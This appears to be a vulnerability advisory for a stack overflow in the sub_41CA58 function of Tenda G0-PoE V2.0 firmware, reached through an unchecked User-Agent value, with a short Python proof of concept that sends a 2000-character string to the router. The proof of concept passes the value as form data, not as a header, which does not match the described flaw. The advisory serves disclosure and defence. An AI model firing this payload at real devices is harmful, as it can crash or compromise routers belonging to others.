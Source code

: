 # Tenda G0-PoE V2.0 sub_41CA58
### Overview
vendor: Tenda

product: G0-PoE V2.0

version: V16.01.11.6(3657)

type: Stack Overflow
### Vulnerability Description
Tenda G0-PoE V2.0 V16.01.11.6(3657) were discovered to contain a stack overflow in the sub_41CA58 function.
### Vulnerability details
In function sub_41CA58 line 19, it reads in a user-provided parameter `User-Agent`, and the variable `v5` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0poe-1-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
